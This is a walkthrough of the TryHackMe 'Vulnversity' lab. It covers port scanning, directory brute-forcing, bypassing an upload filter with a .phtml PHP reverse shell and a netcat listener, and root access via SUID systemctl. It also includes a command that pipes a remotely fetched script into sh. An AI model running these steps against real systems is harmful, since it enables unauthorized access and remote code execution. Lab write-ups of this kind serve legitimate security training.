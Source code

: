 # Vulnversity

The link to this room can be found [here](https://tryhackme.com/room/vulnversity).

### Task 1: Deploy The Machine

Machine IP: 10.101.134.14  (will be different for you)

### Task 2: Reconnaissance

1. Scan this box: `nmap -sV 10.10.134.14`.<br/>
<u>PORT</u>   <u>STATE SERVICE</u>     <u>VERSION</u><br/>
21/tcp   open  ftp         vsftpd 3.0.3<br/>
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)<br/>
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)<br/>
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)<br/>
3128/tcp open  http-proxy  Squid http proxy 3.5.12<br/>
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))<br/>
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel<br/>




2. Scan the box, how many ports are open?

   > 6

3. What version of the squid proxy is running on the machine?

   > 3.5.12

4. How many ports will nmap scan if the flag -p-400 was used?

   > 400

 

5. Using the nmap flag -n what will it not resolve?

   > DNS


6. What is the most likely operating system this machine is running?

   >ubuntu


7. What port is the web server running on?

   > 3333

 

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

   > No answer needed

### Task 3: Locating directories using GoBuster

1. Lets first start of by scanning the website to find any hidden directories. To do this, we're going to use GoBuster.

   GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.
   Download GoBuster [here](https://github.com/OJ/gobuster), or if you're on Kali Linux 2020.1+ run `sudo apt-get install gobuster`.
   To get started, you will need a wordlist for GoBuster (which will be used to quickly go through the wordlist to identify if there is a public directory available. If you are using Kali Linux you can find many wordlists under /usr/share/wordlists.
   Now lets run GoBuster with a wordlist: `gobuster diir -u http://<ip>:3333 -w <word list location>`

   > No answer needed.

   Since I am using Kali Linux, I simply ran the command `gobuster dir -u http://10.10.134.14:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`. The -u flag is followed by the target URL, the -w flag is followed by the path of the wordlist used. In this case, I used the directory-list-lowercase-2.3-medium.txt file from the /usr/share/wordlists/dirbuster directory.<br/><br/>
    /images               (Status: 301) [Size: 320] [--> http://10.10.134.14:3333/images/]<br/>
    /css                  (Status: 301) [Size: 317] [--> http://10.10.134.14:3333/css]<br> 
    /js                   (Status: 301) [Size: 316] [--> http://10.10.134.14:3333/js/]   
    /fonts                (Status: 301) [Size: 319] [--> http://10.10.134.14:3333/fonts/]<br> 
    /internal             (Status: 301) [Size: 322] [--> http://10.10.134.14:3333/internal/]<br><br>


2. What is the directory that has an upload form page?

   > /internal/

   After leaving GoBuster to scan the website for hidden directories, notice that one of the directories found is named /internal.

### Task 4: Compromise the webserver

After accessing http://10.10.134.14:3333/internal, the browser will display a page containing a file upload form.

1. Try upload a few file types to the server, what common extension seems to be blocked?

   > .php

   To see what extensions the server accepts, I uploaded different files manually and .php extension was blocked 

2. To identify which extensions are not blocked, we're going to fuzz the upload form.

   > No answer needed.

3. We're going to use Intruder (used for automating customised attacks).
   To begin, make a wordlist with the following extensions in:

   ![Screenshot of word list](screenshots/phpWordlist.png?raw=true)

   Now make sure BurpSuite is configured to intercept all your browser traffic. Upload a file, once this request is captured, send it to the Intruder. Click on "Payloads" and select the "Sniper" attack type.
   Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so:

   ![Screenshot of burpsuite](screenshots/burpsuite.png?raw=true)

   Run this attack, what extension is allowed?

   > .phtml

4. Now we know what extension we can use for our payload we can progress.
   We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!
   Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
   To gain remote access to this machine, follow these steps:
   1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).
   2. Rename this file to php-reverse-shell.phtml
   3. We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 1234`
   4. Upload your shell and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload
   5. You should see a connection on your netcat session
   > No answer needed

   I simply followed the steps described in this question. The reverse shell is successful.

   ![Screenshot of reverse shell](screenshots/netcat.png?raw=true)

5. What is the name of the user who manages the webserver?

   >bill

   Since I have access to the webserver, I simply check what users can be found in the /home directory.

   ![Screenshot of ls cmd](screenshots/ls_cmd.png?raw=true)

6. What is the user flag?

   >REDACTED


   The user flag is found in the user.txt file from the /home/bill directory.

   ![Screenshot of flag](screenshots/flag.png?raw=true)

### Task 5: Priviledge Escalation

1. In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

   ![Screenshot_SUID](screenshots/suid.png?raw=true)

   On the system, search for all SUID files. What file stands out?

   > /bin/systemctl
  I used linpeass for privesc
  PEASS - Privilege Escalation Awesome Scripts SUITE, download it [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). The script needs to be put on the vulnerable webserver, to perform the enumeration. I started a Python HTTP server on my own machine, using the `python3 -m http.server 80` command and on the webserver, I transfered the file with curl (`curl <my_tun0_ip>/linpeas.sh | sh`).

   ![Screenshot_of_PEASS](screenshots/peass.png?raw=true)


2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
   Become root and get the last flag (/root/root.txt)

   > REDACTED

   Now we need to use /bin/systemctl to become root. For this, I used [n0w4n](https://n0w4n.nl/vulnversity/). his write up explained it well

   ![Screenshot_of_GTFOBins](screenshots/gtfobins.png?raw=true)

